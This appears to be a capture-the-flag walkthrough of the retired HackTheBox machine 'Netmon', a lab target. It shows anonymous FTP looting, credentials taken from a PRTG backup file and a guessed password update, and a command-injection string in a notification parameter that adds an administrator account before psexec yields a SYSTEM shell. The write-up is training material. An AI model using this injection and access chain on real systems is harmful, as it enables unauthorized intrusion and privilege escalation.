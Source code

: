 ```yaml
---
layout: post
title: "Netmon"
categories: HTB-Walkthrough
---
```


![netmon](/assets/img/netmon/netmon1.png)


Netmon is another retired HTB box from TJNull's 'more challenging than OSCP' list.


nmap first:

```
nmap -sV -Pn -sC 10.10.10.152 |tee -a netmon.txt
```

![nmap](/assets/img/netmon/netmon-nmap.png)


<hr width="300" size="8">


<h3>FTP</h3>

The `ftp` service accepts `anonymous` logins!

we are easily able to navigate to the user flag, and retrieve it!!!

```
ftp 10.10.10.152

Connected to 10.10.10.152.
220 Microsoft FTP Service
Name (10.10.10.152:root): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-03-19  12:18AM                 1024 .rnd
02-25-19  10:15PM       <DIR>          inetpub
07-16-16  09:18AM       <DIR>          PerfLogs
02-25-19  10:56PM       <DIR>          Program Files
02-03-19  12:28AM       <DIR>          Program Files (x86)
02-03-19  08:08AM       <DIR>          Users
02-25-19  11:49PM       <DIR>          Windows
226 Transfer complete.
ftp> cd Users
250 CWD command successful.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-25-19  11:44PM       <DIR>          Administrator
02-03-19  12:35AM       <DIR>          Public
226 Transfer complete.
ftp> cd public
250 CWD command successful.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-03-19  08:05AM       <DIR>          Documents
07-16-16  09:18AM       <DIR>          Downloads
07-16-16  09:18AM       <DIR>          Music
07-16-16  09:18AM       <DIR>          Pictures
02-03-19  12:35AM                   33 user.txt
07-16-16  09:18AM       <DIR>          Videos
226 Transfer complete.

ftp> get user.txt
local: user.txt remote: user.txt
200 PORT command successful.
150 Opening ASCII mode data connection.
WARNING! 1 bare linefeeds received in ASCII mode
File may not have transferred correctly.
226 Transfer complete.
33 bytes received in 0.10 secs (0.3180 kB/s)
ftp> exit
221 Goodbye.

```

Check the length of user.txt to see if it transfered correctly.
```
wc -c user.txt
33 user.txt
```

Same size as the file on the target, likely to be ok.
We may return to this service to explore some more, but I want to check out the web service.



<hr width="300" size="8">



![web](/assets/img/netmon/netmon-web1.png)


Im unfamiliar with PRTG Network Monitor, so I Google it and get to the vendor's website.

Exploring the system via Ftp again, and browse through the program's files for anything helpful.

Nothing immediately springs to my attention.

Browsing the vendor's website again I find where the really interesting files are hidden.

```
https://kb.paessler.com/en/topic/463-how-and-where-does-prtg-store-its-data
```

![progdata](/assets/img/netmon/netmon-datadir.png)


`facepalm`



Back in via FTP I recover some interesting files.

Examining the backup file 'PRTG Configuration.old.bak' reveals some db creds.

![dbcreds](/assets/img/netmon/netmon-dbcreds.png)



```
 User: prtgadmin
 Pass: PrTg@dmin2018
```

The creds fail, but since this is an old backup, perhaps the user has updated the password..

`pass: PrTg@dmin2019` works!




<hr width="300" size="8">



![dashboard](/assets/img/netmon/netmon-dashboard.png)



<hr width="300" size="8">




<h3>Searchsploit</h3>

There may be public exploits for this software, searchsploit is a good place to start looking.

```
searchsploit prtg
```

![searchsploit](/assets/img/netmon/netmon-searchsploit-prtg.png)


Since we have authenticated access, I check out the RCE exploit first.

```
searchsploit -m 46527
```

Examining the exploit, it looks like it creates or edits a notification, and executes a command to create an user with admin privileges.

The exploit doesnt seem to work for me out of the box, so instead of trying to fix it I attempt to follow it and replicate it manually.

I find the `notifications` table:

![notify](/assets/img/netmon/netmon-notifications.png)


Click the plus icon to add

Scroll to the bottom and select `Execute Program`

Use the dropdown arrow in the 'Program File' field to select `Demo exe notification-outfile.ps1`

Add the command to the 'Parameter' field below it:
```
test.txt;net user sh1n0bi pass123 /add;net localgroup administrators sh1n0bi /add
```



![adduser](/assets/img/netmon/netmon-exploit.png)


Click `Save`

The notification is added to the table.


To trigger the exploit, select the notification with the checkbox on the right, and click the bell icon (test) that appears on a blue panel.

![trigger](/assets/img/netmon/netmon-trigger.png)



<hr width="300" size="8">


We know that `smb` is running, possibly [Impacket's psexec.py](https://github.com/SecureAuthCorp/impacket) can give us an easy access.

```
python /opt/impacket/examples/psexec.py 'sh1n0bi:pass123@10.10.10.152'
```

![system-shell](/assets/img/netmon/netmon-system-shell.png)


With a SYSTEM shell, we can pick up the flags.

```
c:\Users\Public>type user.txt
ddxxxxxxxxxxxxxxxxxxxxxxxxxxxxa5


c:\Users\Administrator\Desktop>type root.txt
30xxxxxxxxxxxxxxxxxxxxxxxxxxxxcc
```
